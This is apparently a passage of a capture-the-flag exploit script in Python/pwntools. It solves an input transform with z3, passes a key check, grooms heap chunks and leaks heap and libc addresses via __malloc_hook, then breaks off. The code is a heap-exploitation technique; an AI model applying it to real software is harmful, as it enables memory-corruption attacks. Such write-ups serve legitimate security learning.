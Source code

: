 ```
    a1 = BitVec('a1', 32)
    x = a1
    for _ in range(2):
        x ^= (32 * x) ^ LShR((x ^ (32 * x)), 17) ^ (((32 * x) ^ x ^ LShR((x ^ (32 * x)), 17)) &lt;&lt; 13)
    solver.add(x == int(data, 16))
    solver.check()
    ans = solver.model()
    return p32(ans[a1].as_long())


def add(size):
    choice(4)
    sendint(size)


def edit(idx, content):
    choice(1)
    sendint(idx)
    sh.send(str(content))


def show(idx):
    choice(2)
    sendint(idx)
    v1 = decode(sh.recvuntil('\n', drop=True))
    v2 = decode(sh.recvuntil('\n', drop=True))
    v1 += v2
    log.hexdump(v1)
    return v1


def delete(idx):
    choice(3)
    sendint(idx)


def pwn(sh, elf, libc):
    context.log_level = "debug"
    key = [0x28371234, 0x19283543, 0x19384721, 0x98372612]
    v = [0x105d191e, 0x98e870c8]
    dec = decipher(v, key)
    sh.sendafter('name:', 'a' * 0x10)
    sh.sendafter('key:', 'b' * 0x20)
    sh.sendafter('secret!:', p32(dec[0]) + p32(dec[1]) + 'c' * 0x10)
    for i in range(10):
        add(0x108)

    for i in range(9):
        delete(8 - i)

    for i in range(9):
        add(0x108)

    sh.recvuntil('\n')
    data = show(1)
    heap_base = u64(data) - 0x10f0
    log.success("heap_base:\t" + hex(heap_base))

    data = show(7)
    malloc_hook_addr = u64(data) - 624 - 0x10
    log.success("malloc_hook_addr:\t" + hex(malloc_hook_addr))
    libc_base = malloc_hook_addr - libc.sym['__malloc_hook']
```